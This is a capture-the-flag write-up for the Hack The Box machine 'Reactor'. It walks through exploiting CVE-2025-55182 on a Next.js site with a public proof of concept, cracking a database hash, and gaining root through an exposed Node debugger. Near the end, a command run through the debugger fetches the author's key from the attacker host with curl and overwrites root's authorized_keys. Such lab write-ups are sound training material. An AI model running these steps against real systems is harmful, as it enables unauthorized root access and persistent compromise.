## Introduction
This is the writeup for [Reactor](https://app.hackthebox.com/machines/Reactor), HTB's season 11 machine. Overall, it's pretty simple all things considered. It highlights the dangers of leaving your self-developed webapps in debugger mode, and also a pesky CVE which honestly, plagues vibecoded/graduates sites more than anything else in my personal opinion. 

## Enumeration
Run an nmap scan as per usual 
```zsh
nmap -T4 -Pn -p- -A 10.129.177.172 --min-rate 1000
Starting Nmap 7.95 ( https://nmap.org ) at 2026-05-24 16:25 +08
Stats: 0:00:04 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 12.56% done; ETC: 16:26 (0:00:21 remaining)
Nmap scan report for 10.129.177.172
Host is up (0.013s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.16 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 ce:fd:0d:82:c0:23:ed:6e:4b:ea:13:fa:4f:ea:ef:b7 (ECDSA)
|_  256 f8:44:c6:46:58:7a:39:21:ef:16:44:e9:58:c2:f3:62 (ED25519)
3000/tcp open  ppp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Vary: RSC, Next-Router-State-Tree, Next-Router-Prefetch, Next-Router-Segment-Prefetch, Accept-Encoding
|     x-nextjs-cache: HIT
|     x-nextjs-prerender: 1
|     x-nextjs-stale-time: 4294967294
|     X-Powered-By: Next.js
|     Cache-Control: s-maxage=31536000, 
|     ETag: "p02u6gnhufd8t"
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 17175
|     Date: Sun, 24 May 2026 08:26:22 GMT
|     Connection: close
|     <!DOCTYPE html><html lang="en"><head><meta charSet="utf-8"/><meta name="viewport" content="width=device-width, initial-scale=1"/><link rel="stylesheet" href="/_next/static/css/414e1be982bc8557.css" data-precedence="next"/><link rel="preload" as="script" fetchPriority="low" href="/_next/static/chunks/webpack-db0a529a99835594.js"/><script src="/_next/static/chunks/4bd1b696-80bcaf75e1b4285e.js" async=""></script><script src="/_next/static/chunks/517-d083b552e04dead1.js" async=""></script><script s
|   HTTPOptions, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     vary: RSC, Next-Router-State-Tree, Next-Router-Prefetch, Next-Router-Segment-Prefetch
|     Allow: GET
|     Allow: HEAD
|     Cache-Control: private, no-cache, no-store, max-age=0, must-revalidate
|     Date: Sun, 24 May 2026 08:26:23 GMT
|     Connection: close
|   Help, NCP, RPCCheck: 
|     HTTP/1.1 400 Bad Request
|_    Connection: close
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.95%I=7%D=5/24%Time=6A12B62F%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,44A8,"HTTP/1\.1\x20200\x20OK\r\nVary:\x20RSC,\x20Next-Router-S
SF:tate-Tree,\x20Next-Router-Prefetch,\x20Next-Router-Segment-Prefetch,\x2
SF:0Accept-Encoding\r\nx-nextjs-cache:\x20HIT\r\nx-nextjs-prerender:\x201\
SF:r\nx-nextjs-stale-time:\x204294967294\r\nX-Powered-By:\x20Next\.js\r\nC
SF:ache-Control:\x20s-maxage=31536000,\x20\r\nETag:\x20\"p02u6gnhufd8t\"\r
SF:\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x2017
SF:175\r\nDate:\x20Sun,\x2024\x20May\x202026\x2008:26:22\x20GMT\r\nConnect
SF:ion:\x20close\r\n\r\n<!DOCTYPE\x20html><html\x20lang=\"en\"><head><meta
SF:\x20charSet=\"utf-8\"/><meta\x20name=\"viewport\"\x20content=\"width=de
SF:vice-width,\x20initial-scale=1\"/><link\x20rel=\"stylesheet\"\x20href=\
SF:"/_next/static/css/414e1be982bc8557\.css\"\x20data-precedence=\"next\"/
SF:><link\x20rel=\"preload\"\x20as=\"script\"\x20fetchPriority=\"low\"\x20
SF:href=\"/_next/static/chunks/webpack-db0a529a99835594\.js\"/><script\x20
SF:src=\"/_next/static/chunks/4bd1b696-80bcaf75e1b4285e\.js\"\x20async=\"\
SF:"></script><script\x20src=\"/_next/static/chunks/517-d083b552e04dead1\.
SF:js\"\x20async=\"\"></script><script\x20s")%r(Help,2F,"HTTP/1\.1\x20400\
SF:x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r(NCP,2F,"HTTP/1\.1
SF:\x20400\x20Bad\x20Request\r\nConnection:\x20close\r\n\r\n")%r(HTTPOptio
SF:ns,10C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nvary:\x20RSC,\x20Next-Rou
SF:ter-State-Tree,\x20Next-Router-Prefetch,\x20Next-Router-Segment-Prefetc
SF:h\r\nAllow:\x20GET\r\nAllow:\x20HEAD\r\nCache-Control:\x20private,\x20n
SF:o-cache,\x20no-store,\x20max-age=0,\x20must-revalidate\r\nDate:\x20Sun,
SF:\x2024\x20May\x202026\x2008:26:23\x20GMT\r\nConnection:\x20close\r\n\r\
SF:n")%r(RTSPRequest,10C,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nvary:\x20R
SF:SC,\x20Next-Router-State-Tree,\x20Next-Router-Prefetch,\x20Next-Router-
SF:Segment-Prefetch\r\nAllow:\x20GET\r\nAllow:\x20HEAD\r\nCache-Control:\x
SF:20private,\x20no-cache,\x20no-store,\x20max-age=0,\x20must-revalidate\r
SF:\nDate:\x20Sun,\x2024\x20May\x202026\x2008:26:23\x20GMT\r\nConnection:\
SF:x20close\r\n\r\n")%r(RPCCheck,2F,"HTTP/1\.1\x20400\x20Bad\x20Request\r\
SF:nConnection:\x20close\r\n\r\n");
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1025/tcp)
HOP RTT      ADDRESS
1   19.13 ms 10.10.14.1
2   19.32 ms 10.129.177.172

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.68 seconds
```

2 Ports are open, 22 for SSH and 3000 for a HTTP site. 

Visiting the site, I get the feeling of a self-developed site, given that **there's no way there will be an opensource/proprietary version of what appears to be a monitoring system of a nuclear reactor core.**



Since there wasn't a custom domain returned in nmap/when I visited the site, I'm not expecting subdomain fuzzing. Hence, I fire up `dirsearch` to star the directory enumeration, while I check wappalyzer to view the technology stack of the site. 



Of particular note, Wappalyzer shows React. 

As dirsearch has nothing, I conclude that it's also not a forced browsing enumeration into a login endpoint vector. Hence, *we're looking for a CVE that can compromise the site's techstack from this page alone.*

Of course, you can google for *React vulnerability*, which will lead you to CVE-2025-55182. However, I confess I knew about this vulnerability from the get-go the moment I saw react. But because I developed a site for my volunteer group which I made using vite-react, and it got compromised a few days after this CVE (CVE-2025-55182) was made public with POCs, but luckily for me the attacker didn't get anything much as I run everything in Docker containers via Kubernetea and additionally use a configured Ubuntu image, so the moment my logs tripped me of somebody attempting to check `/etc/passwd`, I just pulled the plug on my miniPC hosting the react-site. 



## Initial Access as Node
There are many POCs available for [CVE-2025-55182](https://nvd.nist.gov/vuln/detail/CVE-2025-55182), but the one I used was 


simply because it had a python POC. 

Therefore, running it against the URL:
```zsh
python3 react2shell.py -u http://10.129.177.172:3000
```

Allows us to gain initial access as `Node`


## Privilege Escalation- Becoming Engineer
Checking `/home`, we can see another user called `engineer` and hence, I set my next goal to **priv esc as engineer**.
Checking the directory contents, I can see `reactor.db`, which I immediately download to read. 



A quick check of the `.env`m also tells me that it's a `sqlite3` database.


Hence, use `sqlite3` to read it, and find out the hashes for **Admin** and **engineer**.



Cracking the hash with hashcat gets me the password `reactor1` for engineer. 


Consequently, I can use this to SSH in as Engineer, getting the first flag.


## Privilege Escalation- Becoming Root
Navigating back to `/opt` where `reactor-app` was present, we can discover another app ran and owned by root, called `uptime-monitor`. Inside, it contains `worker.js` which we only have read access over.


Reading the contents:
```zsh
engineer@reactor:/opt/uptime-monitor$ cat worker.js
const http = require('http');
const fs = require('fs');

const TARGET_URL = 'http://127.0.0.1:3000/';
const CSV_FILE = '/var/log/uptime-monitor.csv';
const INTERVAL_MS = 30_000;
const TIMEOUT_MS = 10_000;

function csvEscape(value) {
    const s = String(value ?? '');
    return /[",\n]/.test(s) ? `"${s.replace(/"/g, '""')}"` : s;
}

function record({ status, latency, size, error }) {
    const row = [
        new Date().toISOString(),
        status ?? '',
        latency ?? '',
        size ?? '',
        error ?? '',
    ]
        .map(csvEscape)
        .join(',') + '\n';

    fs.appendFileSync(CSV_FILE, row);
}

function probe() {
    const start = process.hrtime.bigint();
    let bytes = 0;

    const req = http.get(TARGET_URL, { timeout: TIMEOUT_MS }, (res) => {
        res.on('data', (chunk) => {
            bytes += chunk.length;
        });

        res.on('end', () => {
            const latencyMs = Number(
                (process.hrtime.bigint() - start) / 1_000_000n
            );

            record({
                status: res.statusCode,
                latency: latencyMs,
                size: bytes,
            });
        });
    });

    req.on('error', (error) => {
        const latencyMs = Number(
            (process.hrtime.bigint() - start) / 1_000_000n
        );

        record({
            latency: latencyMs,
            error: error.code || error.message,
        });
    });

    req.on('timeout', () => {
        req.destroy();

        record({
            latency: TIMEOUT_MS,
            error: 'TIMEOUT',
        });
    });
}

setInterval(probe, INTERVAL_MS);
probe();

console.log('uptime-monitor up, pid=' + process.pid);
```

We can see that essentially, it queries a website for it's status, which is then appended to a CSV file, akin to a healthcheck endpoint. 
However, we control neither the source (Website) nor the sink (CSV) file as we can't edit or write to both, hence, this script itself is not a viable privilege escalation vector at first pass. 

I transfer *pspy* over to find whether there are any cron jobs which call `worker.js` which we can edit and therefore, easily gain root.
```zsh
engineer@reactor:/tmp$ wget http://10.10.14.126/pspy64
--2026-05-24 08:41:12--  http://10.10.14.126/pspy64
Connecting to 10.10.14.126:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3518724 (3.4M) [application/octet-stream]
Saving to: ‘pspy64’

pspy64                                  100%[=============================================================================>]   3.36M  4.18MB/s    in 0.8s    

2026-05-24 08:41:13 (4.18 MB/s) - ‘pspy64’ saved [3518724/3518724]

engineer@reactor:/tmp$ chmod +x pspy64
engineer@reactor:/tmp$ ./pspy64
```

In particular, we can see a process ran by root (UID=0)


```zsh
/usr/bin/node --inspect=127.0.0.1:9229 /opt/uptime-monitor/worker.js
```

Node is running which uses the `--inspect` flag on a localhost instance at port 9229, and invokes `worker.js` on it. 
Although we didn't enumerate for listening ports, Chekov's Gun states:
{{ <typeit
    lifeLike=true> }}
If a gun appears in the first act, it must fire by the third.
{{ </typeit> }}

Additionally, realism-wise, system administrators will not allow ports to be randomly opened because they present an unnecessary attack vector and so, *this misconfig is intentional!*

I therefore locally port forward
```zsh
ssh -L 9229:127.0.0.1:9229 engineer@10.129.177.175
```

And access it in browser to get an error about `expected websockets`


Since I'm using Firefox and I don't have any websockets extensions, I can't directly communicate with it. However, I can still enumerate it via `/versions` and we get a DebuggerURL.


The priv esc path to root is now clear: **Since the debugger is running, and it's triggered by root as from pspy's output, anything we do as the debugger will be done as root.**

[HackTricks](https://hacktricks.wiki/en/linux-hardening/privilege-escalation/electron-cef-chromium-debugger-abuse.html) has a few examples of what to do, but I opt to connect to it locally over node. 



To do so, you first need to install nodeJS!

After that, connect via 
```zsh
node inspect 127.0.0.1:9229
```


Notice that the response of `whoami` is not shown, hence I rule out reading `/root/.ssh/id_rsa` immediately. 


Note that if you take the OSCP/OSCP+, you MUST get a privileged shell. You CANNOT just read the flag. It's listed in their [exam FAQs](https://help.offsec.com/hc/en-us/articles/360040165632-OSCP-Exam-Guide)


Luckily, I am able to connect to my local machine via HTTP and do not have to attempt to transfer files to the compromised victim and attempt some form of localhost file transfer. 



Therefore, I plan on transferring my SSH key over to the compromised victim and just SSH in from there. 
Normally, I suggest appending your key to the `authorized_keys` file since it doesn't disrupt existing operations and on paper, adds somes stealth (Note that this line if written in a report, is not really accurate since this action is already really noisy and has likely tripped some alert!).

However there was some issue with how the commands were interpreted, hence I opted to instead replace the entire `authorized_keys` file with my own SSH.pub key, and we can SSH in as root!

```zsh
exec("process.mainModule.require('child_process').exec('curl http://10.10.14.126/CTFKeys.pub -o /root/.ssh/authorized_keys')")
```



## Conclusion
This machine was interesting since it involved privilege escalation debugger usage. However, personally I don't think it's very realistic? I'm unable to comment in bigger companies but when I worked as a software engineer, I confess that I never used the web app's debugger. I `console.logged`/wrote the entire stack trace to a txt and read it from there, but that's also the reason why I'm not a frontend software engineer...

*I'm not too sure why the screenshots are so blurry, I think I accidentally enabled the free-stretch option on my vmware when I did this CTF and I think that caused the window to be stretched out, resulting in screenshots being blurry*

